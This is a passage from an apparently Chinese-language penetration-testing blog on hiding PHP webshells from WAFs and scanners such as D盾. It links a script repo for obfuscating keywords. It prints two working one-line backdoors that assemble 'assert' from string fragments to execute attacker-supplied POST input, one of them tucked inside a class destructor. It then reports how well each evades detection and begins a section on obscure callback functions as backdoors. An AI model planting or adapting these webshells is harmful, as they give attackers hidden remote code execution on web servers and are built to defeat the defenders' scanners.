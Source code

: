 输入字符串，随即生成的脚本我已经提取放在了github上：[https://github.com/saucer-man/penetration-script/tree/master/%E7%94%9F%E6%88%90%E6%B7%B7%E6%B7%86php%E5%8F%98%E9%87%8F(%E8%BF%87waf)](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fgithub.com%2Fsaucer-man%2Fpenetration-script%2Ftree%2Fmaster%2F%25E7%2594%259F%25E6%2588%2590%25E6%25B7%25B7%25E6%25B7%2586php%25E5%258F%2598%25E9%2587%258F(%25E8%25BF%2587waf))

上面讲了三种隐藏关键字的方式，作用大同小异，个人来说较推荐随机亦或的方式，有脚本在，也方便许多。

## 1.2 将关键操作隐藏在各种类、函数中

其实主要的目的还是做混淆。比如下面这个一句话木马：

```
<?php
$ch = explode(".","hello.ass.world.er.rt.e.saucerman");
$c = $ch[1].$ch[5].$ch[4]; //assert
@$c($_POST['x']);
?>
```

在用D盾进行扫描时，还是很容易被检测出来。

![](https://ask.qcloudimg.com/raw/yehe-b343db5317ff8/ky06iqbw8y.png)

在[http://webshell.cdxy.me/上试试也很容易被检测出来。](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwebshell.cdxy.me%2F%25E4%25B8%258A%25E8%25AF%2595%25E8%25AF%2595%25E4%25B9%259F%25E5%25BE%2588%25E5%25AE%25B9%25E6%2598%2593%25E8%25A2%25AB%25E6%25A3%2580%25E6%25B5%258B%25E5%2587%25BA%25E6%259D%25A5%25E3%2580%2582)

我们可以把他隐藏在类中：

```
<?php
class  Test{
    public $config='';
    function __destruct(){
    $ch = explode(".","hello.ass.world.er.rt.e.saucerman");
    $c = $ch[1].$ch[5].$ch[4];
    @$c($this->config);
    }
}
$test=new Test();
@$test->config=$_POST['x'];
?>
```

试试D盾：

![](https://ask.qcloudimg.com/raw/yehe-b343db5317ff8/ds0x73zsrk.png)

变成了二级可疑，虽然没有完全奏效，但是还是有所混淆这里的原因主要还是检测出了assert关键字，其实采用稍微复杂的方式来生成assert就可以了，这里偷懒就不做了。

## 1.3 使用冷门回调函数

像`eval`，`assert`的关键字作为函数名称很显然是要受waf重点照顾的，但是作为世界上最好的语言，php也不可能就这点函数，还有很多冷门的回调函数，虽然开发没什么人用，但作为后门还是很好的。
